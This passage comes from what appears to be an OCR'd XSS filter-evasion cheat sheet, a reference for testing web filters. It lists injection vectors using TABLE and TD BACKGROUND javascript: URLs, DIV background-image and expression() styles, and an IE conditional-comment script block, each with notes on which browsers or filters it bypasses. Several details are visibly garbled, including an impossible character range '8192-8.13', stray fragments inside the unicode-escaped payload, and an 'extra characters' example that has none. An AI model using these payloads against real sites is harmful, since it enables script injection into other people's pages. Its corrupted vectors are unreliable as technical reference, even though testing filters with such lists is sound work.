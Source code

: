     <TABLE BACKGROUND="javascript:alert('XSS')">

### TD

Just like above, TD's are vulnerable to BACKGROUNDs containing
JavaScript XSS vectors:

    <TABLE><TD BACKGROUND="javascript:alert('XSS')">

## DIV

### DIV background-image

    <DIV STYLE="background-image: url(javascript:alert('XSS'))">

### DIV background-image with unicoded XSS exploit

This has been modified slightly to obfuscate the url parameter. The original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail:

    <DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">

### DIV background-image plus extra characters

Rnaske built a quick XSS fuzzer to detect any erroneous characters that are allowed after the open parenthesis but before the JavaScript directive in IE and Netscape 8.1 in secure site mode. These are in decimal but you can include hex and add padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):

    <DIV STYLE="background-image: url(javascript:alert('XSS'))">

### DIV expression

A variant of this was effective against a real world cross site scripting filter using a newline between the colon and "expression":

    <DIV STYLE="width: expression(alert('XSS'));">

## Downlevel-Hidden block

Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine mode). Some websites consider anything inside a comment block to be safe and therefore does not need to be removed, which allows our Cross Site Scripting vector. Or the system could add comment tags around something to attempt to render it harmless. As we can see, that probably wouldn't do the job:

    <!--[if gte IE 4]>
    <SCRIPT>alert('XSS');</SCRIPT>
    <![endif]-->

## BASE tag

Works in IE and Netscape 8.1 in safe mode. You need the `//` to comment out the next characters so you won't get a JavaScript error and your XSS tag will render. Also, this relies on the fact that the website uses dynamically placed images like `images/image.jpg` rather than full paths. If the path includes a leading forward slash like `/images/image.jpg` you can remove one slash from this vector (as long as there are two to begin the comment this will work):
